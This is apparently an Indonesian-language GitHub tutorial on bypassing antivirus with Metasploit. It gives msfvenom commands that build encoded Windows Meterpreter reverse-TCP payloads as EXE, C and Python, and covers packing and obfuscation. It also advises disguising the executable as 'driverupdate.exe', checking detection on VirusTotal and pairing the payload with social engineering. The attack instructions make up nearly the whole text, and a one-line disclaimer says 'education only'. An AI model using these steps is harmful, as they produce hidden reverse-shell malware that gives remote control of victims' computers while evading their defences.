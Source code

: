 # Bypass Antivirus (AV) dengan Metasploit Framework

## A. Kenapa Perlu Bypass AV?

Saat payload buatan Metasploit dieksekusi di sistem target, antivirus modern bisa langsung mendeteksi dan memblokirnya. Oleh karena itu, bypass AV menjadi langkah penting agar payload dapat berjalan tanpa terdeteksi.

## B. Teknik Umum Bypass AV

| Teknik | Deskripsi |
|:--:|:-:|
| `Encoding Payload` | Mengacak struktur payload agar tidak dikenali signature AV |
| `Packing` / `Obfuscation` | Membungkus file dengan enkripsi atau modifikasi struktur file | 
| `Custom Payload Wrapper` | Menulis skrip sendiri dalam `Python`/`C`/`VB` yang menjalankan `shellcode` |
| `Menghindari Signature Payload` | Tidak menggunakan payload default bawaan Metasploit |

## C. Bypass AV dengan Encoder Metasploit Framework

Gunakan encoder saat membuat payload:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe -o shell_encoded.exe
```

**Keterangan:**

- `-e`: Encoder (contoh: `x86/shikata_ga_nai`)
- `-i`: Iterasi encoder (semakin banyak, semakin acak tapi bisa tidak stabil)

**Encoder Populer di Metasploit:**

- `x86/shikata_ga_nai`
- `cmd/powershell_base64`
- `x86/countdown`
- `x86/jmp_call_additive`

Cek semua encoder:

```
msfvenom --list encoders
```

## D. Membungkus Payload dalam Bahasa Pemrograman Lain

### 1. Format C

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f c > payload.c
```

Compile secara manual dan modifikasi kode untuk menyisipkan ke aplikasi.

### 2. Format Python:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f python > payload.py
```

Bisa dikonversi ke `.exe` dengan `pyinstaller`, dan payload dapat disamarkan.

## E. Tips Tambahan

| Tips | Penjelasan |
|:--:|:-:|
| Ganti nama file | Gunakan nama umum seperti driverupdate.exe |
| Obfuscate | Gunakan tool seperti `UPX`, `PyArmor`, `dll` |
| Test | Gunakan VirusTotal untuk uji deteksi |
| Ganti payload | Hindari payload yang umum seperti `meterpreter/reverse_tcp` |
| Social Engineering | Gabungkan dengan file asli atau teknik persuasi |


## F. Catatan Penting

- Teknik bypass AV tidak menjamin selalu berhasil.
- AV signature terus diperbarui -> butuh improvisasi dan eksperimen.
- Gunakan hanya untuk tujuan edukasi dan pengujian legal.
